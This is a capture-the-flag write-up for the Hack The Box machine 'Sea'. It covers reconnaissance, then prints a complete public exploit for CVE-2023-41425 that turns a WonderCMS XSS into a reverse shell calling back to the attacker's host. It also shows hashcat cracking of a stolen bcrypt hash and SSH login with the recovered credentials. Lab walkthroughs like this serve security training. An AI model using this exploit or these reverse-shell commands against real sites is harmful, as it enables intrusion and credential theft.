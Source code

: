 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

![image](https://github.com/user-attachments/assets/f9dac408-58f9-4866-8962-edfa1ce692e9)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

And so we found the directory `/themes/` where we don't have access. Let's try to find directories in this section as well

With using `directory-list-2.3-medium.txt` wordlist.

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)

Try again for `/themes/bike/` directory
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

Exploit: Wondercms 4.3.2 XSS to RCE

    import sys
    import requests
    import os
    import bs4
    
    if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
    else:
      data = '''
    var url = "'''+str(sys.argv[1])+'''";
    if (url.endsWith("/")) {
     url = url.slice(0, -1);
    }
    var urlWithoutLog = url.split("/").slice(0, -1).join("/");
    var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
    var token = document.querySelectorAll('[name="token"]')[0].value;
    var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
    var xhr3 = new XMLHttpRequest();
    xhr3.withCredentials = true;
    xhr3.open("GET", urlRev);
    xhr3.send();
    xhr3.onload = function() {
     if (xhr3.status == 200) {
       var xhr4 = new XMLHttpRequest();
       xhr4.withCredentials = true;
       xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
       xhr4.send();
       xhr4.onload = function() {
         if (xhr4.status == 200) {
           var ip = "'''+str(sys.argv[2])+'''";
           var port = "'''+str(sys.argv[3])+'''";
           var xhr5 = new XMLHttpRequest();
           xhr5.withCredentials = true;
           xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
           xhr5.send();
           
         }
       };
     }
    };
    '''
      try:
        open("xss.js","w").write(data)
        print("[+] xss.js is created")
        print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
        print("----------------------------\n")
        XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
        XSSlink = XSSlink.strip(" ")
        print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
        print("----------------------------\n")
    
        print("\nstarting HTTP server to allow the access to xss.js")
        os.system("python3 -m http.server\n")
      except: print(data,"\n","//write this to a file")

Clone from github

    git clone https://github.com/prodigiousMind/CVE-2023-41425

Run the exploit and get the shell

    python3 exploit.py http://sea.htb/themes/ 10.10.14.11 4444

    rlwrap nc -nlvp 4444

    curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=4444'

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)

![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

netstat

![image](https://github.com/user-attachments/assets/ecc3a342-afa2-45df-96fc-c9c74e062c18)

ssh -L 8888:localhost:8080 amay@sea.htb

![image](https://github.com/user-attachments/assets/2c1944aa-5ab1-4b39-bf32-347224052a5c)

![image](https://github.com/user-attachments/assets/a28c03fd-c6de-4f11-ad04-c10e51f3dc4c)

Use amay's credentials `amay`:`mychemicalromance`

![image](https://github.com/user-attachments/assets/34de5860-9986-4873-a5f8-e0cdd1108884)

![image](https://github.com/user-attachments/assets/cf4b823d-6bb2-4f6c-b832-b9c60f0beeab)

![image](https://github.com/user-attachments/assets/26f51839-0b6a-4706-9caf-f5dd0a0c4d72)

![image](https://github.com/user-attachments/assets/2b3bc0da-f620-4132-81b5-1d664574d81c)

![image](https://github.com/user-attachments/assets/7dc9102d-f74e-4398-ab6d-40f7e158c59e)

![image](https://github.com/user-attachments/assets/1e441ca4-140d-4aa5-8bc4-c3e701b0aaa2)

![image](https://github.com/user-attachments/assets/b0f85efd-a295-4c8c-8e18-998fbfd06dea)
